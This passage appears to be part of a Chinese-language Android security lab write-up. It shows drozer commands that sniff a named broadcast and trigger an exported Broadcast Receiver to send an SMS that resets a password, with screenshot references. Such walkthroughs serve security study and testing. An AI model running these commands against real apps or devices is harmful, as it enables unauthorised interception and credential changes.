   ```drozer
  run app.broadcast.sniff --action "theBroadcast"
  ```

- 测试结果👇

  ![](./img/drozer-sniff.gif)

##### 使用drozer实现Exploiting Android Broadcast Receivers

- 获取有关`Broadcast Receiver`的信息

  ![](./img/drozer-broadcast.PNG)

- 触发`Broadcast receiver`并发送带有密码的短信

  ```drozer
  run app.broadcast.send --action theBroadcast --extra string phonenumber 5554 --extra string newpass Dinesh@123!
  ```
